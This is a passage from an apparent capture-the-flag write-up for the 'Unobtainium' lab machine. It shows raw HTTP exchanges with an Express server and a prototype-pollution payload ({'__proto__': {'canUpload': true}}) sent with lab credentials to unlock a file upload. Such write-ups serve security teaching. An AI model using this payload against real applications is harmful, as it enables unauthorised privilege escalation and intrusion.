   {"auth":{"name":"felamos","password":"Winter2021"},"message":{"text":"abc"}}

ORIGINAL RESPONSE:
  HTTP/1.1 200 OK
  X-Powered-By: Express
  Content-Type: application/json; charset=utf-8
  Content-Length: 11
  ETag: W/"b-Ai2R8hgEarLmHKwesT1qcY913ys"
  Date: Tue, 25 May 2021 10:03:14 GMT
  Connection: keep-alive
  Keep-Alive: timeout=5

  {"ok":true}

Googling around about Javascript and nodejs injections I came across Prototype Pollution.

QUOTE:
> Let’s take an example, obj[a][b] = value. If an attacker can control a and value, then he can set the value of a to __proto__
> and the property b will be defined for all existing objects of the application with the value value.
> The simplest payload to do the same: {"__proto__": {"admin": 1}}

Meaning in our case we could instead of '{"text":"abc"}' try to send '{"__proto__": {"canUpload":true}}' to enable uploads.

POLLUTED REQUEST:
  PUT / HTTP/1.1
  Host: unobtainium.htb:31337
  Connection: keep-alive
  Content-Length: 96
  Accept: application/json, text/javascript, */*; q=0.01
  User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36
  Content-Type: application/json
  Accept-Encoding: gzip, deflate
  Accept-Language: en-US

  {"auth":{"name":"felamos","password":"Winter2021"},"message":{"__proto__": {"canUpload": true}}}

POLLUTED RESPONSE:
  HTTP/1.1 200 OK
  X-Powered-By: Express
  Content-Type: application/json; charset=utf-8
  Content-Length: 11
  ETag: W/"b-Ai2R8hgEarLmHKwesT1qcY913ys"
  Date: Tue, 25 May 2021 12:52:53 GMT
  Connection: keep-alive
  Keep-Alive: timeout=5

  {"ok":true}


4. We should now be able to POST to http://unobtainium:31337/upload with felamos:Winter2021. We already have the Request form
from when getting todo.txt from /todo, so easiest is probably to reuse that.

